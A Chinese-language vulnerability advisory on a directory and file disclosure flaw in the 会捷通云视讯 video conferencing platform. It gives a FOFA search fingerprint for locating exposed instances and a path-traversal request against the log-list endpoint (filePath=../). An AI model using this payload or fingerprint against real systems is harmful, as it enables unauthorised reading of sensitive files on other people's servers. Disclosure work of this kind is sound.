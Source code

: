 # 会捷通云视讯 list 目录文件泄露漏洞

## 漏洞描述

会捷通云视讯某个文件 list参数 存在目录文件泄露漏洞，攻击者通过漏洞可以获取一些敏感信息

## 漏洞影响

> [!NOTE]
>
> 会捷通云视讯

## FOFA

> [!NOTE]
>
> body="/him/api/rest/v1.0/node/role"

## 漏洞复现

登陆页面如下

![](http://wikioss.peiqi.tech/vuln/zc-1.png)

访问Url

```
/him/api/rest/V1.0/system/log/list?filePath=../
```

![](http://wikioss.peiqi.tech/vuln/zc-2.png)

## Goby & POC

![](http://wikioss.peiqi.tech/vuln/zc-4.png)